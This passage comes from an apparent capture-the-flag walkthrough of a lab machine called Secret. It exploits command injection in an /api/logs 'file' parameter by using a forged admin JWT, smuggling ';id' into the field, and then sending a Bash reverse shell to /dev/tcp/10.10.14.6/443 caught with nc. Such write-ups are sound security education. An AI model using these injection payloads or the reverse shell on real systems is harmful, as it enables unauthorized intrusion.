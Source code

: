 
#### POC - id

Given that the output comes back (the command injection is not blind), I can
test other commands as well, like `id`:

    
    
    oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .
    80bf34c fixed typos 🎉
    0c75212 now we can view logs from server 😃
    ab3e953 Added the codes
    uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
    

I could write a small Python script here to keep enumerating via this RCE, but
I’ll go for a shell first.

#### Shell

I’ll continue to use `curl`, but rather than putting the GET parameters right
into the url, I’ll use `-G` to force a GET request, and `--data-urlencode` to
have `curl` encode the data for me. Now I don’t have to worry about special
characters, etc. I’ll start with a command I know works to make sure my syntax
is correct:

    
    
    oxdf@hacky$ curl -s -G 'http://10.10.11.120/api/logs' \
    > --data-urlencode 'file=/dev/null;id' \
    > -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" \
    > | jq -r .
    uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
    

Adding `/dev/null` before the `;` is not necessary, but it makes the `git log`
command return nothing, so the output is just from my injection.

Now I can update that to a simple Bash reverse shell (and start `nc` listening
in a new terminal):

    
    
    oxdf@hacky$ curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .
    

It just hangs, but at a listening `nc` there’s a shell as dasith:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.120 44874
    bash: cannot set terminal process group (1093): Inappropriate ioctl for device
    bash: no job control in this shell
    dasith@secret:~/local-web$ id
    uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
    